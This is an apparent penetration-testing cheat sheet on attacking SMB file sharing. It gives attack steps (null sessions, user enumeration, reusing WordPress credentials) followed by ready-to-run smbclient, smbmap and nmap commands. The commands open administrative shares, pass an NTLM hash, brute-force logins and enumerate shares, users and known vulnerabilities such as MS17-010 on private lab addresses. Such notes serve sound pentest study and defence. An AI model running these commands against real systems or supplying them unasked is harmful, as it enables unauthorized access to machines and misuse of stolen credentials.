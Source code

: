 # SMB (Server Message Block): Port Number -- 139,445
SMB SMB (Server Message Block) is one of the most important port and this protocol is designed to share files. In SMB, authentication is required to access resources or files. Basically SMB runs on default port number 139 or 445. Strong password should be used by the admin on their important resources so that it cannot be easily guessable. 
SMB has been used primarily to connect Windows computers, although most other systems -- such as Linux and macOS -- also include client components for connecting to SMB resources.
### SMB Versions
```
    CIFS: The old version of SMB, which was included in Microsoft Windows NT 4.0 in 1996.
    SMB 1.0 / SMB1: The version used in Windows 2000, Windows XP, Windows Server 2003 and Windows Server 2003 R2.
    SMB 2.0 / SMB2: This version used in Windows Vista and Windows Server 2008.
    SMB 2.1 / SMB2.1: This version used in Windows 7 and Windows Server 2008 R2.
    SMB 3.0 / SMB3: This version used in Windows 8 and Windows Server 2012.
    SMB 3.02 / SMB3: This version used in Windows 8.1 and Windows Server 2012 R2.
    SMB 3.1: This version used in Windows Server 2016 and Windows 10.
```
#### Step to follow in this attack

```
1.Find the null session

2.if null session is not there than find the user

3.User id password 

4.Always focous on the extenction on the file

5.Try the wordpress user_name password for FTP SMB   
```

## SMB CLIENT TOOLS:

#### smbclient
```
smbclient -L //192.168.1.41		- Null session

smbclient -L //192.168.1.41 -U ""	- Session with user name

smbclient -L //192.168.1.41/data -U ""

smbclient -L //192.168.1.41/pass -U ""

smbclient -L //192.168.1.41/C$ -U ""

smbclient -L //192.168.1.41/ADMIN$ -U ""

smbclient -L //192.168.1.41/ADMIN$ -U "administrator"

smbclient -L //192.168.1.41/E$ -U "administrator"

smbclient -U 'administrator%password' \\\\192.168.1.41\\C$ 

smbclient -U 'administrator%password' //192.168.1.41/C$

smbclient //192.168.1.41/C$ -U administrator --pw-nt-hash 8846F7EAEE8FB117AD06BDD830B7586C    	    - pass the hash

smbclient -U 'administrator%password' //192.168.1.41/C$ --option='client min protocol=NT1'	   - Use when we get protocol error

```
#### SMBMAP

```
smbmap -H 192.168.41

smbmap -u "" -H 192.168.41

smbmap --help

smbmap -u ""  -H 192.168.41

```
### Enumeration Tools:
SMB enumeration provide important information about our target.
#### Nmap
```
# ls /usr/share/nmap/scripts/ | grep smb
		smb2-capabilities.nse
		smb2-security-mode.nse
		smb2-time.nse
		smb2-vuln-uptime.nse
		smb-brute.nse
		smb-double-pulsar-backdoor.nse
		smb-enum-domains.nse
		smb-enum-groups.nse
		smb-enum-processes.nse
		smb-enum-services.nse
		smb-enum-sessions.nse
		smb-enum-shares.nse
		smb-enum-users.nse
		smb-flood.nse
		smb-ls.nse
		smb-mbenum.nse
		smb-os-discovery.nse
		smb-print-text.nse
		smb-protocols.nse
		smb-psexec.nse
		smb-security-mode.nse
		smb-server-stats.nse
		smb-system-info.nse
		smb-vuln-conficker.nse
		smb-vuln-cve2009-3103.nse
		smb-vuln-cve-2017-7494.nse
		smb-vuln-ms06-025.nse
		smb-vuln-ms07-029.nse
		smb-vuln-ms08-067.nse
		smb-vuln-ms10-054.nse
		smb-vuln-ms10-061.nse
		smb-vuln-ms17-010.nse
		smb-vuln-regsvc-dos.nse
		
nmap -v -sV -sT --script=smb-os-discovery.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-system-info.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-shares.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-users.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-domains.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-groups.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-processes.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-services.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-brute.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-ls --script-args 'share=c$,path=\data' -p 445,139 192.168.129.237

```
#### Command to find open SMB shares through nmap
```
 nmap -v --script smb-enum-shares --script-args smbuser=admin,smbpass=admin -p445 192.168.1.0/24
```
### Hostname
 Tools to enumerate hostname
 
```
   # nmblookup -A ip
   # nbtstat -A ip
   # nbtscan ip
